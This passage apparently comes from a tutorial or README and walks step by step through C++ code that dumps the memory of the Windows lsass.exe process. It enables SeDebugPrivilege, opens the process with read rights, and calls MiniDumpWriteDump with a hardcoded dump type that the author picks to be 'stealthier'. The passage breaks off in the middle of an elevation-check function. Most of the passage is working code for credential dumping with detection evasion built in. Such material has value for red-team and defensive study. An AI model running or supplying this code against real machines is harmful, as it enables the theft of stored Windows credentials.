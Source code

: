 ```cpp
HANDLE outFile = CreateFile(pointer_filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
```

Then, we will enable SeDebugPrivilege privilege with the function SetPrivilege(), needed to dump the lsass.exe process. If not possible we will halt the program:

```cpp
BOOL privAdded = SetPrivilege();
if (!privAdded) {
	wcout << "[-] Error: Necessary privilege could not be added." << endl;
	return 1;
}
```

We will create a handle to the process with the function [OpenProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) and the minimum process rights we need: PROCESS_VM_READ and PROCESS_QUERY_INFORMATION. It would also work with PROCESS_ALL_ACCESS, but it is not necessary:

```cpp
DWORD processRights = PROCESS_VM_READ | PROCESS_QUERY_INFORMATION;
HANDLE processHandle = OpenProcess(processRights, 0, processPID);
```

Finally, we will dump the process. From [this link](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/ne-minidumpapiset-minidump_type), we can find that *MiniDumpWithFullMemory*, the type of dump we want, translates to the value 0x00000002. Hopefully using that value makes this stealthier. We will use that value, the process handle and PID and the output file and feed it to the function [MiniDumpWriteDump()](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump), which will do the work:

```cpp
BOOL isDumped = MiniDumpWriteDump(processHandle, processPID, outFile, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
if (isDumped) {
	cout << "[+] Successfully dumped process with pid " << processPID << " to file " << filename << endl;
}
```

<br>

## Other functions

#### Check Elevated Process 

For checking if the program is running as an elevated process we will use the following function ([source](https://stackoverflow.com/questions/11491933/openprocess-returns-null-every-time-in-c)):

```cpp
BOOL IsElevatedProcess()
{
	BOOL is_elevated = FALSE;
	HANDLE token = NULL;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token))
	{
		TOKEN_ELEVATION elevation;
		DWORD token_sz = sizeof(TOKEN_ELEVATION);
		if (GetTokenInformation(token, TokenElevation, &elevation, sizeof(elevation), &token_sz))
		{
			is_elevated = elevation.TokenIsElevated;
		}
	}
	if (token)
	{
		CloseHandle(token);
	}
```